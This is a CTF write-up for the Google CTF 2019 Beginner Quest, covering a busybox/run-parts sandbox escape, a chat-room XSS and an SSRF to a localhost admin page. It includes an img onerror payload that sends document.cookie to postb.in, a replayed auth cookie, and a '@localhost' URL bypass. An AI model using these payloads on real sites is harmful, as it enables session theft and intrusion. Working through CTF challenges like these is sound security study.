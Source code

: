 # GoogleCTF
## 2019 - Beginner Quest (Part 3)
[link to Part 1](./GoogleCTF_Beginner_Quest.html)

[link to Part 2](./GoogleCTF_Beginner_Quest_2.html)

### Day 3 - Work Computer (sandbox)
#### Steps
1. There is another flag hidden in the task. We cannot open the "ORME.flag" using the same method as the origional method. listing the permission, we can see that there are no permission for the current user.
    ```console
    > tar -c ORME.flag
    tar: can't open 'ORME.flag': Permission denied
    tar: error exit delayed from previous errors
    > ls -l
    total 8
    ----------    1 1338     1338            33 Aug  3 13:27 ORME.flag
    -r--------    1 1338     1338            28 Aug  3 13:27 README.flag
    ```
1. Again, we have to enumerate to find all commands in `/bin`. After searching and reference from other [write-ups](https://github.com/AidanFray/CTF_Writeups/tree/master/2019/GoogleCTF/BeginnerQuests/WorkComputer), we can find the useful command `run-parts`.
    1. Firstly we install the environment in tmp, making the directory having only one command.
        > $ install /bin/busybox /tmp
    1. Then we can test it through the `run-parts` command:
        ```console
        > $ run-parts /tmp
        BusyBox v1.29.3 (2019-01-24 07:45:07 UTC) multi-call binary.
        BusyBox is copyrighted by many authors between 1998-2015.
        Licensed under GPLv2. See source distribution for detailed
        copyright notices.
        ```
    1. then we can call the shell out. Note that as the 'busybox' we installed is a fresh new instance, it has the commands like 'chmod' that is not exist with the instance that we enconter when we connects in it.
        ```console
        > run-parts /tmp --arg sh 
        $ ls
        ORME.flag
        README.flag
        $ busybox chmod 777 ORME.flag    
        $ busybox cat ORME.flag
        CTF{XXXXXXXXXXXXXXXXXXXXXX}
        ```


### Day 5 - Cookie World Order (web) 
#### Steps
1. In this task, we are given a website with a video and a chartroom. we can type things into the chatroom, but any XSS script will be translated to `HACKER ALERT` comment.
    ![Webpage](./images/GoogleCTF/beginner_quest/img11.png) 
1. But the blind spot is that HTML is still valid and javascript in `onerror` is not checked. Therefore we can use the same XSS trick as Part 1 with our postb.in friend. Then there is our flag!
    > &lt; img src="x" onerror="document.location='https://postb.in/1564843387388-4921431124676/?'+document.cookie"&gt;

    ![Flag](./images/GoogleCTF/beginner_quest/img12.png) 



### Day 4 - Cookie World Order (web) 
#### Steps
1. With the flag, there comes with another cookie `auth`, which may bring us to another flag:
    > auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
1. Remember the previous XSS flag, where there is a '/admin' directory? yes, there is an admin directory here too. Only that it redirects us back to the website unless we give the `auth` cookie.
    > document.cookie = "auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz"

    ![Admin site](./images/GoogleCTF/beginner_quest/img13.png) 
1. Well there is not much to see, and the 'Camera Control' tab is not working too.
    > Requests only accepted from 127.0.0.1
1. Then we have to find other ways to locate the file 'locally'. Enumering all the urls we have, the streaming path is a local file we found:
    > /watch?livestream=http://cwo-xss.web.ctfcompetition.com/livestream/garden-livestream.webm
1. However, trying to replace the path solely is not enough as it is not recongized also as a local file request. We have to fake the server by putting a additional '@' sign to trick it. After that our flag appears!
    > http://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@localhost/admin/controls

    ![Flag](./images/GoogleCTF/beginner_quest/img14.png) 
